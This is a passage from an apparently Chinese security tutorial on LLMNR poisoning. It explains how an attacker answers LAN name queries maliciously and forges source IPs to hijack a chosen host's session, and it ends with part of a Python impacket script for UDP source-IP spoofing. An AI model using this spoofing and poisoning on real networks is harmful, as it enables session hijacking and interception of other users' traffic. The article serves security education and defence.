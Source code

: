 最终执行后结果如下图所示：

![](http://drops.javaweb.org/uploads/images/4291ac1b35999cfc90c5d684930056c978a37282.jpg)

图 6：Python 实现 LLMNR 质询与应答 1

下图为模拟主机查询主机名称为**Wooyun**的结果

![](http://drops.javaweb.org/uploads/images/35a8b2042351f9e33b75e17f6ad39dd768b5c166.jpg)

图 7：Python 实现 LLMNR 质询与应答 2

0x04 LLMNR Poison 攻击原理
======================

* * *

图 2 说明了一个完整的正常的 LLMNR 质询/应答过程。由于 LLMNR 使用了无连接的 UDP 协议发送了广播，之后，多播组内的主机就可以对发起名称解析的主机进行应答，因此，在这个过程中，攻击者就有机可乘。

攻击者可以将自己的主机加入到组播组中，当收到其他主机进行名称解析的质询请求，就可以对发起此次名称解析的主机进行“恶意”应答。利用此缺陷进行欺骗攻击的方式称为**LLMNR Poison 攻击**。

“恶意”应答过程如下图所示：

![](http://drops.javaweb.org/uploads/images/b130aaf06c493703344409e9c43102f945f65fb3.jpg)

图 8： 攻击者进行“恶意”应答过程图示

LLMNR 名称解析的最大缺陷就是，在当前局域网中，无论是否存在主机 B（假定机器名为：SECLAB-HER0IN），只要有主机请求**SECLAB-HER0IN**都会进行一次 LLMNR 名称解析。

0x05 利用伪造源 IP + LLMNR Poisone 劫持内网指定主机会话
========================================

* * *

由于 UDP 是面向无连接的，所以不存在三次握手的过程，因此，在 LLMNR 名称解析过程中，UDP 的不安全性就凸显出来了。攻击者可以伪造源 IP 地址向广播地址发送 LLMNR 名称解析质询，之后攻击者再对这个质询进行应答，完全是一场 “自导自演” 的戏。

修改 UDP 源 IP 的代码如下：

[UDP Source IP Spoof Demo Code](https://github.com/coca1ne/LLMNR_Her0in)

```
#/usr/bin/env python

__doc__ = """

    UDP Source IP Spoof ,
                    by Her0in

"""

import socket, time
from impacket import ImpactDecoder, ImpactPacket

def UDPSpoof(src_ip, src_port, dst_ip, dst_port, data):
    ip = ImpactPacket.IP()
    ip.set_ip_src(src_ip)
    ip.set_ip_dst(dst_ip)

    udp = ImpactPacket.UDP()
    udp.set_uh_sport(src_port)
    udp.set_uh_dport(dst_port)

    udp.contains(ImpactPacket.Data(data))
    ip.contains(udp)

    s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_UDP)
    s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
```